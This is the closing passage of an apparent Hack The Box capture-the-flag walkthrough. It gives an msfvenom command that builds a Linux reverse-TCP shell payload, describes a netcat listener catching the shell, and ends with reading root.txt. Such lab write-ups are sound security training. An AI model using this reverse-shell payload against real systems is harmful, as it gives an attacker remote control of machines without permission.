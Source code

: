 ```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=x.x.x.x LPORT=1234 -f elf -o rev
```

I'll leave it as an exercise how that to transfer the file over to the box.

<a class="image-popup">
![d7c1ce33.png](/assets/images/posts/ai-htb-walkthrough/d7c1ce33.png)
</a>

Over at my `nc` listener, a reverse shell appears...

<a class="image-popup">
![185031b3.png](/assets/images/posts/ai-htb-walkthrough/185031b3.png)
</a>

With that, getting `root.txt` is trivial.

<a class="image-popup">
![42781b75.png](/assets/images/posts/ai-htb-walkthrough/42781b75.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/216
[2]: https://www.hackthebox.eu/home/users/profile/13531
[3]: https://www.hackthebox.eu/
